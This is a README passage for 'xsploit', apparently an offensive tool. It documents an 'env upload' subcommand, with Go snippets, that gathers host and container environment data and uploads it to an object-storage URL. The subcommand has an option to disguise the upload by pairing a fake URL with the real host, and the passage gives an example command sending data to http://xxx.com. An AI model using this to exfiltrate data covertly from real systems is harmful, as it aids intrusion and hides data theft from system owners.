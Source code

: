 The env list to be collected:

* [app](./env-app.md)
* [container](./env-container.md)
* [linux](./env-linux.md)
* [virt](./env-virt.md)

#### upload

upload env info to obs.

register the upload subcommand to env command
```go
Upload = upload.GenerateUploadCommand(func() (content []byte, err error) {
    env := auto.Auto()
    content, err = json.Marshal(env)
    if err != nil {
        return
    }
    return
})
```

The upload subcommand has 4 Arguments, including servicename, filename, obsurl, obshots
```go
//eg. ECS
servicename := context.Args().Get(0)
// region_tag.json eg. cn-north4_linux.json
filename := context.Args().Get(1)
// obsurl
obs := context.Args().Get(2)
// obshost (if want to hide obs upload behavior), put your real obsurl in here, put the fake url in obsurl
host := context.Args().Get(3)
if servicename == "" {
    return
}
```
- servicename: like ECS\CCE
- filename: tag_region.json (cn-north4_linux.json)
- obs: the target obs url
- host(optional): If you want to hide the obs upload behaviro, Put the real obs url in here, and put the fake url in obsurl.

finally, the subcommand is like:
```
xsploit env upload local cn-north7_linux.json http://xxx.com aaa.com
```

### 1.4 exploit command

### 1.5 vul command

```
$ ./bin/release/xsploit_linux_amd64 vul
NAME:
   xsploit vul - list vulnerabilities

USAGE:
   xsploit vul command [command options] 

COMMANDS:
   CVE-2099-9999, 2099  Description of CVE-2099-9999
   help, h              Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help
```